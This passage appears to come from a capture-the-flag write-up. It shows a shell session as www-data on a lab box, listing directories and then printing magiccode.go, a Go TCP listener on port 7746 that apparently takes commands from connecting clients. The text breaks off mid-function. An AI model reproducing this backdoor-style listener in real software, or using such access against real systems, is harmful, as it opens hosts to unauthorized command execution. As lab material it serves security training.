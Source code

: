 ```bash
lrwxrwxrwx   1 root root    28 Nov 14  2022 vmlinuz -> boot/vmlinuz-5.10.0-19-amd64
lrwxrwxrwx   1 root root    28 Nov 14  2022 vmlinuz.old -> boot/vmlinuz-5.10.0-18-amd64
(remote) www-data@tagged:/$ cd opt
(remote) www-data@tagged:/opt$ ls -la
total 8
drwxr-xr-x  2 root root 4096 Nov 14  2022 .
drwxr-xr-x 18 root root 4096 Nov 14  2022 ..
(remote) www-data@tagged:/opt$ cd /tmp;ls -la
total 36
drwxrwxrwt  9 root root 4096 Apr 13 10:39 .
drwxr-xr-x 18 root root 4096 Nov 14  2022 ..
drwxrwxrwt  2 root root 4096 Apr 13 10:26 .ICE-unix
drwxrwxrwt  2 root root 4096 Apr 13 10:26 .Test-unix
drwxrwxrwt  2 root root 4096 Apr 13 10:26 .X11-unix
drwxrwxrwt  2 root root 4096 Apr 13 10:26 .XIM-unix
drwxrwxrwt  2 root root 4096 Apr 13 10:26 .font-unix
drwx------  3 root root 4096 Apr 13 10:26 systemd-private-c17be820856f4776a84d72e729eed924-systemd-logind.service-xX0pSg
drwx------  3 root root 4096 Apr 13 10:26 systemd-private-c17be820856f4776a84d72e729eed924-systemd-timesyncd.service-qWsaHi
(remote) www-data@tagged:/tmp$ cd /var/www/html;ls -la
total 20
drwxr-xr-x 2 root     root  4096 Nov 14  2022 .
drwxr-xr-x 3 root     root  4096 Nov 14  2022 ..
-rw-r--r-- 1 root     root    46 Nov 14  2022 index.html
-rwxrwxr-- 1 www-data shyla   93 Apr 13 10:38 index.php
-rw-r--r-- 1 root     root   982 Nov 14  2022 magiccode.go
lrwxrwxrwx 1 root     root    24 Nov 14  2022 report.html -> /var/www/html/report.php
-rwxrwxr-- 1 uma      uma      0 Nov 14  2022 report.php
(remote) www-data@tagged:/var/www/html$ file magiccode.go 
magiccode.go: C source, ASCII text
(remote) www-data@tagged:/var/www/html$ cat magiccode.go 
package main

import (
        "bufio"
        "fmt"
        "net"
        "os"
"log"
"os/exec"
"strings"
)

func main() {
        ln, _ := net.Listen("tcp", ":7746")
        for {
                conn, _ := ln.Accept()
                go receiveData(conn)
                go sendData(conn, "")
        }
}

func sendData(conn net.Conn,mensaje string) {
                fmt.Fprintf(conn, mensaje)
}

func receiveData(conn net.Conn){
  for {
  var tohtml string
     sendData(conn, ">")
    message, _ := bufio.NewReader(conn).ReadString('\n')
    message = strings.TrimRight(message, "\r\n")
```